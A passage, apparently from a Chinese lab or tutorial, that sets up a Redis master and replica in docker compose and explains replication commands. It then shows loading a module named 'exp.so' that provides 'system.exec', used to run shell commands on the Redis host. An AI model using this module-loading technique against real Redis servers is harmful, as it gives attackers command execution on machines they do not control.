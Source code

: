 ```yml
services:
  redis-master:
    image: redis:5.0
    container_name: redis-master
    ports:
      - "6379:6379"
  redis-slave:
    image: redis:5.0
    container_name: redis-slave
    ports:
      - "6380:6379"
    depends_on:
      - redis-master
```

```bash
docker compose up
```

### 配置步骤

在从节点机器上进行如下配置：

- 方式 1：通过 `redis.conf`

```text
REPLICAOF <主节点IP> <主节点端口>
```

- 方式 2：运行时配置

> 在 Redis 5.0 及以上版本，SLAVEOF 命令已被 REPLICAOF 取代，但为了兼容性，SLAVEOF 仍然可以使用。

```bash
# 建立主从关系， REPLICAOF <主节点IP> <主节点端口>
127.0.0.1:6379> REPLICAOF redis-master 6379
OK

# 认证配置（若主节点启用requirepass）
127.0.0.1:6379> CONFIG SET masterauth <master-password>

# 验证复制状态
127.0.0.1:6379> INFO replication
```

`MODULE LOAD` 命令用于动态加载外部模块（.so 文件），以扩展 Redis 的功能。

```bash
# 加载模块
127.0.0.1:6379> MODULE LOAD /tmp/exp.so
OK

# 查看已加载模块
127.0.0.1:6379> MODULE LIST
1) 1) "name"
   2) "system"
   3) "ver"
   4) (integer) 1

# 执行命令
127.0.0.1:6379> system.exec id
"uid=999(redis) gid=999(redis) groups=999(redis)\n"
```

